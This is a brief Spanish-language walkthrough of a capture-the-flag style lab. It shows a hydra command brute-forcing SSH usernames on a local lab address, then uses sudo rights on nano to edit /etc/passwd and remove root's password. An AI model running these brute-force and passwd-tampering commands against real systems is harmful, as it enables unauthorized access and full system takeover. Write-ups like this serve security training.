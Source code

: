 </div>

Si hacemos una fuerza bruta al servicio ssh en busca de un usuario encontramos que sea llama lovely

```
hydra -L /usr/share/wordlists/rockyou.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 16
```

<div align="left">

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Accedemos y vemos que tenemos privilegios de administrador para el comando nano

<div align="left">

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt="" width="563"><figcaption></figcaption></figure>

</div>

Podemos modificar el fichero /etc/passwd y quitando la x de root, quitamos la contraseña del usuario&#x20;

```
sudo /usr/bin/nano /etc/passwd
```
